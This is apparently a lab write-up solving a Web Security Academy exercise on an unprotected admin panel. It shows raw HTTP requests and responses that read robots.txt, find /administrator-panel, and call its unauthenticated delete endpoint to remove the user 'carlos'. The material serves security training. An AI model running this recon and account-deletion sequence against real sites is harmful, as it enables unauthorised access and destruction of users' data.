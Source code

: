 ## Lab: Unprotected admin functionality

This lab has an unprotected admin panel.

Solve the lab by deleting the user `carlos`.

## Solution:
We enter the site and sends the request to repeater and first action is to request robots.txt.
Request:
```http
GET /robots.txt HTTP/2
Host: 0ab5004c039c609481a32f0f00210040.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```
Response:
```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Set-Cookie: session=1Upan7uS63a4DAqTMfwhu59vMYz4PDqE; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 45

User-agent: *
Disallow: /administrator-panel

```

Here we find the ```/administrator-panel``` and send a request there.
Request:
```http
GET /administrator-panel HTTP/2
Host: 0ab5004c039c609481a32f0f00210040.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=k2OK2lD45dR42kb5XpanNo70p8NRJxFm; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3034

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Unprotected admin functionality</title>
    </head>
**********SNIP**********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/administrator-panel/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/administrator-panel/delete?username=carlos">Delete</a>
                        </div>
                    </section>
                    <br>
                    <hr>
                </div>
            </section>
**********SNIP**********
</html>
```

In the html snippet we find the a tag with a href attribute pointing to /delete with a query string pointing to a username to delete.

We make a request to the a tag.
```http
HTTP/2 302 Found
Location: /administrator-panel
Set-Cookie: session=6QC0cViVhZZlzgl0x73AoKJaAKg7k5tI; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
We get a 302 which redirects us back to the admin panel with the message
![](Access_control_lab1.png)